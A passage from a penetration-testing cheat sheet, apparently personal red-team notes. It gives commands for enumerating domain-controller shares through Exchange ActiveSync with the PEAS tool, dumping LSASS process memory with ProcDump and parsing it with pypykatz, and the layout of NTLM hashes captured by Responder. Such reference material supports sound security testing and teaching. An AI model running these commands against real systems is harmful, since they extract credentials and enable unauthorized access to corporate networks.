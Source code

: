 Install:

```
$ git clone https://github.com/FSecureLABS/peas ~/tools/peas && cd ~/tools/peas
$ python -m virtualenv --python=/usr/bin/python venv && source venv/bin/activate
$ pip install requests twisted pyOpenSSL lxml service_identity
```

Run:

```
$ python -m peas --check -u 'CORP\snovvcrash' -p 'Passw0rd1!' mx.corp.local
$ python -m peas --list-unc='\\DC02' -u 'CORP\snovvcrash' -p 'Passw0rd1!' mx.corp.local
$ python -m peas --list-unc='\\DC02\SYSVOL' -u 'CORP\snovvcrash' -p 'Passw0rd1!' mx.corp.local
$ python -m peas --list-unc='\\DC02\SYSVOL\corp.local' -u 'CORP\snovvcrash' -p 'Passw0rd1!' mx.corp.local
$ python -m peas --list-unc='\\DC02\NETLOGON' -u 'CORP\snovvcrash' -p 'Passw0rd1!' mx.corp.local
```




## Dump Creds



### ProcDump

* [download.sysinternals.com/files/Procdump.zip](https://download.sysinternals.com/files/Procdump.zip)

```
PS > .\procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
$ pypykatz lsa minidump lsass.dmp
```




## NTLM

### Responder

`[SMB] NTLMv1 Hash` and `[SMB] NTLMv1-SSP Hash` capture structure:

```
<Username>:<Domain>:<LMv1_Response>:<NTv1_Response>:<Server_Challenge>
```

`[SMB] NTLMv2-SSP Hash` capture structure:

```
<Username>:<Domain>:<Server_Challenge>:<LMv2_Response>:<NTv2_Response>
```

* [github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149](https://github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149)
* [ru.wikipedia.org/wiki/NTLMv2#NTLMv2](https://ru.wikipedia.org/wiki/NTLMv2#NTLMv2)
* [www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/](https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/)
* Andrei Miroshnikov. Windows Security Monitoring: Scenarios and Patterns, Part III, pp. 330-333.


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)
